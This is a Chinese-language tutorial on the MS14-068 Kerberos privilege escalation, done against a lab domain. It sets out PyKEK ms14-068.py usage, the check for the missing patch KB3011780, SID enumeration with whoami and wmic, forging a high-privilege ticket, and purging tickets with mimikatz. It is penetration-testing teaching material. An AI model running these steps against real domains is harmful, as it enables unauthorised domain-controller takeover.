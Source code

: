 ```txt
USAGE:
ms14-068.py -u <userName>@<domainName> -s <userSid> -d <domainControlerAddr>

OPTIONS:
-u <username>@<domainName>    用户名@域名
-s <userSid>      用户 SID
-d <doaminControllerAddr>    域控制器地址
-p <clearPassword>       明文密码
-rc4 <ntlmHash>       在没有明文密码的情况下，通过 NTLM Hash 登录
```

**查看域控服务器是否安装补丁 KB3011780**

```
wmic qfe get hotfixid
```

[![IP8GB4.png](https://z3.ax1x.com/2021/11/01/IP8GB4.png)](https://imgtu.com/i/IP8GB4)

没有该补丁。

**查看用户的SID**

```
whoami /user
或
wmic useraccount get name,sid  //获取域内所有用户的SID
```

[![IP8f8P.png](https://z3.ax1x.com/2021/11/01/IP8f8P.png)](https://imgtu.com/i/IP8f8P)

**生成高权限票据**

使用 PyKEK生成高权限票据的命令：

```
ms14-068.py -u 域成员名@域名 -s 域成员的sid -d 域控制器地址 -p 域成员密码
```

在pykek目录中输入如下命令，生成一个名为 ``TGT_testuser@hacke.testlab.ccache`` 的票据文件。

[![IPJhnS.png](https://z3.ax1x.com/2021/11/01/IPJhnS.png)](https://imgtu.com/i/IPJhnS)

**查看注入前的权限**

将票据文件复制到 Win7 机器的 mimikatz 目录下，使用 mimikatz 将票据注入内存。输入命令 ``net use \\DC.hacke.testlab\c$`` 或 ``dir \\192.168.1.1\c$``，提示 "Access is denied"，表示在将票据注入前无法列出域控制器C盘目录的内容。

[![IPNOjP.png](https://z3.ax1x.com/2021/11/01/IPNOjP.png)](https://imgtu.com/i/IPNOjP)

**清除内存中的所有票据**

打开 mimikatz，输入命令：

```
kerberos::purge
```

[![IPNvB8.png](https://z3.ax1x.com/2021/11/01/IPNvB8.png)](https://imgtu.com/i/IPNvB8)

清除内存中的票据信息，如图成功。
